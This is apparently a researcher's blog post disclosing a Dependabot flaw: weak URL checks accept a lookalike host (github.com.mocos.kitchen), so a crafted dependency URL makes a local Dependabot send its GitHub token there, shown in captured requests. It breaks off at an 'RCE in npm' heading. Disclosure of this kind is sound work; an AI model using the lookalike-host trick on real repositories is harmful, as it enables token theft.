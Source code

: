 ```yaml
---
title: "Diving into Dependabot with a bug in npm"
date: 2021-06-27T00:00:00+09:00
---
```


If you are developing some applications on GitHub, you might have seen pull requests from Depedabot.
It automatically finds outdated vulnerable packages and sends pull requests to fix that.

![](screenshot1.png)

It is enabled by default, therefore, it can make a commit on `dependabot/*` branch of many repositories on GitHub.
I thought If I could gain a controll of Dependabot, I can steal write permissions of those repositories.
Then, I started to look into Dependabot.

# SSRF in Dependabot

The core module of the Dependabot is open-sourced (<https://github.com/dependabot/dependabot-core>), so we can use Dependabot outside of GitHub.
To start the investigation, I prepared an local Dependabot environment following [the official sample code](https://github.com/dependabot/dependabot-script).

This sample code requires GitHub access token to fetch the source code of the repository.

<script src="https://gist-it.appspot.com/https://github.com/dependabot/dependabot-script/blob/4330ff7043b6fe2bb009005e2f5b0ca9985f32f2/update-script.rb?slice=16:23"></script>

So, my first idea is to deceiving a Dependabot so that the bot will sends the token to my server instead of GitHub.
This idea seems possible because there are flaws in URL validations.

One of the validations is checking whether the URL contains `github.com` or not.
Obviously, this validation accepts a URL such as `github.com.mocos.kitchen`.

<script src="https://gist-it.appspot.com/https://github.com/dependabot/dependabot-core/blob/f5151ed385a267a13c6778dec5197af574f39d92/common/lib/dependabot/git_metadata_fetcher.rb?slice=7:8"></script>

<script src="https://gist-it.appspot.com/https://github.com/dependabot/dependabot-core/blob/f5151ed385a267a13c6778dec5197af574f39d92/common/lib/dependabot/git_metadata_fetcher.rb?slice=54:55"></script>

Another one uses following regexp which accepts a URL such as `git+https://github.com.mocos.kitchen/username/repo`.

<script src="https://gist-it.appspot.com/https://github.com/dependabot/dependabot-core/blob/2f0db3e851ba2cc43d0b6dcd70da5e69d5b63eb6/npm_and_yarn/lib/dependabot/npm_and_yarn/file_parser.rb?slice=27:37"></script>

Based on these tricks, Dependabot treats `git+https://github.com.mocos.kitchen/username/repo` as a valid GitHub's URL.

## Token stealing demo

To proof this concept, I created [a sample repository](https://github.com/tyage/dependabot-test-app) that includes following `package.json` file.

<script src="https://gist-it.appspot.com/https://github.com/tyage/dependabot-test-app/blob/7f348994737bc39ab5ff443b6132f34c0c593328/package.json"></script>

Next, I updated the `credentials`, `repo_name` and `dependency_name` in [update-scripts.rb](https://github.com/dependabot/dependabot-script/blob/4330ff7043b6fe2bb009005e2f5b0ca9985f32f2/update-script.rb) so that we can run dependency checker against the sample repository.
When I run the script, my server (`github.com.mocos.kitchen`) received a request which contains GitHub Access Token.

It means, if someone run a dependency checker against malicious repository, their GitHub Access Token will be stolen!

```
GET /username/repo.git/info/refs?service=git-upload-pack HTTP/1.0
Host: localhost:3000
Connection: close
User-Agent: dependabot-core/0.142.0 excon/0.79.0 ruby/2.6.6 (x86_64-darwin20) (+https://github.com/dependabot/dependabot-core)
Authorization: Basic eC1hY2Nlc3MtdG9rZW46Z2hw*************************************
Accept-Encoding: deflate, gzip
```

## First dive into a Dependabot server

Next, in order to try this attack in GitHub environment, I enabled Dependabot alerts in the sample repository.
This is possible in a simple way by adding a `.github/dependabot.yml` file.

<script src="https://gist-it.appspot.com/https://github.com/tyage/dependabot-test-app/blob/7f348994737bc39ab5ff443b6132f34c0c593328/.github/dependabot.yml"></script>

After that, I successfully received a HTTP request from a Dependabot in GitHub.
But contrary to my expectation, there is no GitHub Access Token in the request.
Afterwards, it turns out that those servers are using special HTTP proxy which enalbes the bot to access target repository without GitHub Access Token.

```
GET /username/repo.git/info/refs?service=git-upload-pack HTTP/1.0
Host: localhost:3000
Connection: close
User-Agent: dependabot-core/0.156.4 excon/0.83.0 ruby/2.7.1 (x86_64-linux-gnu) (+https://github.com/dependabot/dependabot-core)
Accept-Encoding: gzip
```

I couldn't steal the token from GitHub's Dependabot server, but after some investigation, I found another bug.

# RCE in npm


